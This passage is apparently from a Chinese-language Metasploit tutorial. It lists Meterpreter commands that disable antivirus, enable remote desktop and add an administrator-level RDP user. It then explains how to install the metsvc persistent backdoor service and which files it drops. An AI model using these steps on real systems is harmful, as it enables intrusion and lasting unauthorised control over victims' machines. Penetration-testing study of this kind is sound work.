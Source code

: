 ```
1.关闭防病毒软件
run killav

run post/windows/manage/killav

```
### 操作远程桌面

```
run post/windows/manage/enable_rdp      \\开启远程桌面

run post/windows/manage/enable_rdp username=test password=test       \\添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

## 后门

Meterpreter的`shell运行在内存中`，目标重启就会失效，如果管理员给系统打上补丁，那么就没办法再次使用exploit获取权限，所以需要持久的后门对目标进行控制。

Msf提供了两种后门，一种是`metsvc(通过服务启动)`，一种是`persistence(支持多种方式启动)`。

### 1.metsvc

```
(1) 使用`run metsvc -h`查看帮助，一共有三个参数。

-A：安装后门后，自动启动exploit/multi/handler模块连接后门

-h：查看帮助

-r：删除后门
```

(2) 安装后门
```
命令：run metsvc
```
![](img/4.png)
命令运行成功后会在C:WindowsTEMP目录下新建随机名称的文件夹，里面生成3个文件（metsvc.dll、metsvc-server.exe、metsvc.exe）。
